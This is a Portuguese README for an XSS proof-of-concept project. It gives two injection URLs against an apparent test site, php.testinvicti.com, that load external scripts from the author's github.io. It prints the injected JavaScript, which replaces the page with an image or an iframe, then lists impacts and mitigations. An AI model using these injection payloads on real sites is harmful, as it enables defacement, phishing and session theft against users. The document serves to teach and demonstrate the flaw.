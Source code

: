 # XSS PoC - Prova de Conceito

## Descrição do Projeto

Este projeto demonstra uma vulnerabilidade de **Cross-Site Scripting (XSS)**. A PoC explora a execução de código JavaScript injetado através de parâmetros não sanitizados em uma aplicação vulnerável. O ataque pode ser usado para alterar o conteúdo da página, exibir mensagens enganosas, carregar iframes maliciosos ou roubar dados do usuário.

## Estrutura do Projeto

- **`index.html`** → Página HTML básica usada como alvo do ataque.
- **`app.js`** → Script que substitui o conteúdo da página por uma imagem.
- **`app2.js`** → Script que insere um iframe carregando uma página externa.
- **`esmola.png`** → Imagem usada na PoC.

## Prova de Conceito (PoC)

Para demonstrar a vulnerabilidade, pode-se injetar um script externo via URL maliciosa como esta, inserindo uam imagem:

```
http://php.testinvicti.com/artist.php?id=<script+src=https://jeanrafaellourenco.github.io/xss-poc/app.js></script>
```

Ou, para carregar uma página externa dentro de um iframe:

```
http://php.testinvicti.com/artist.php?id=<script+src=https://jeanrafaellourenco.github.io/xss-poc/app2.js></script>
```

### Código JavaScript Injetado

**`app.js` - Exibição de Imagem:**
```javascript
document.querySelector('html').innerHTML='<img src="https://jeanrafaellourenco.github.io/xss-poc/esmola.png"/>';
```

**`app2.js` - Inserção de iframe:**
```javascript
document.querySelector('html').innerHTML='<iframe src="https://jeanrafaellourenco.github.io/xss-poc/" width="480" height="270" frameBorder="0"></iframe>';
```

## Impacto da Falha

- **Defacement:** O site pode ser visualmente alterado sem permissão.
- **Phishing:** Usuários podem ser enganados para inserir credenciais em uma página falsa.
- **Roubo de Sessão:** Um atacante pode capturar cookies e tokens de autenticação.
- **Execução de Scripts Maliciosos:** Qualquer código pode ser executado no contexto do site vulnerável.

## Mitigação

1. **Sanitização de entrada:** Filtrar e escapar entradas do usuário para evitar a injeção de scripts.
2. **Implementação de CSP (Content Security Policy):** Restringir fontes externas de scripts.
3. **Uso de Cookies com HTTPOnly:** Impedir o acesso aos cookies via JavaScript.
4. **Validação do lado do servidor:** Evitar a inserção direta de dados do usuário no HTML.

## Conclusão

Este projeto demonstra como um XSS pode ser explorado para comprometer a segurança de um site. A mitigação dessa vulnerabilidade é essencial para proteger os usuários e a integridade da aplicação.
